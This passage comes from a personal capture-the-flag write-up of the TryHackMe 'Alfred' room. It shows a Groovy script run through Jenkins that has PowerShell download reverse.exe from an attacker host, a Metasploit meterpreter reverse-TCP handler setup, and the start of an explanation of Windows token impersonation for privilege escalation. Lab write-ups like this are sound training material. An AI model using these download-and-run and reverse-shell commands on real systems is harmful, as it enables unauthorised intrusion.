     I finally had enough frustration and decided to put the above payload in groovy format and execute it on the script console like earlier in order to get it onto the target machine. Heres the payload in groovy:
    
    def cmd = 'powershell -Command "(New-Object System.Net.WebClient).DownloadFile(\'[http://10.10.154.193:8000/reverse.exe\\](http://10.10.154.193:8000/reverse.exe%5C%5C)', \'C:\\Users\\bruce\\reverse.exe\')"'
    def proc = cmd.execute()
    proc.waitFor()
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2017.png)
    
    IDK maybe im missing something but this was the only way I got it to work. ANYWAYS.
    
    Before running this program, ensure the handler is set up in Metasploit:
    
    **`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`**
    
    This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell
    
    **`Start-Process "shell-name.exe"`**
    
    This should spawn a meterpreter shell for you!
    
    For the above step I simply ran .\reverse.exe from the command line of the target machine and recieved my meterpreter shell:
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2018.png)
    
    ## PrivEsc:
    
    OK FINALLY lets move on to privesc. The room provides really good step by step instructions (don't forget to run the command ‘shell’ to drop into a system shell): 
    
    Now that we have initial access, let's use token impersonation to gain system access.
    
    Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
    
    This access token consists of:
    
    - User SIDs(security identifier)
    - Group SIDs
    - Privileges
    
    Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).
    
    There are two types of access tokens:
    
    - Primary access tokens: those associated with a user account that are generated on log on
    - Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process
    
    For an impersonation token, there are different levels:
    